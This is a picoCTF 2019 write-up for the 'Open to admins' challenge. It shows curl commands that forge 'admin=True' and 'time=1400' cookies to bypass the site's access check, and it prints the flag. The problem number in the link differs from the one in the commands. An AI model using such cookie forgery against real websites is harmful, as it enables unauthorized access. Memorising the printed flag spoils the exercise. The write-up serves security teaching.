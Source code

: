 # Open to admins

Q) This secure website allows users to access the flag only if they are admin and if the time is exactly 1400. https://2019shell1.picoctf.com/problem/37878/ (link) or http://2019shell1.picoctf.com:37878

A) picoCTF{0p3n_t0_adm1n5_dcb566bb}

Commentary:

We can easily send a cookie to the website by using curl in the terminal with the apropriate flags:

```
curl "https://2019shell1.picoctf.com/problem/12276/flag" -H "Cookie: time=1400; admin=True;" -s
```

Since it is a simple and small HTML page that is being returned, we can find the flag just by reading it.
But if, for some reason, it was a very large HTML file, 
we could use grep to get the flag, by piping the response into grep, like this:

```
curl "https://2019shell1.picoctf.com/problem/12276/flag" -H "Cookie: time=1400; admin=True;" -s | grep picoCTF
```
The -H flag defines a custom header line, which we want, since we want to tell the server we are both Admin, and the time is 1400.

This leaves us with the flag, which is:

```
picoCTF{0p3n_t0_adm1n5_dcb566bb}
```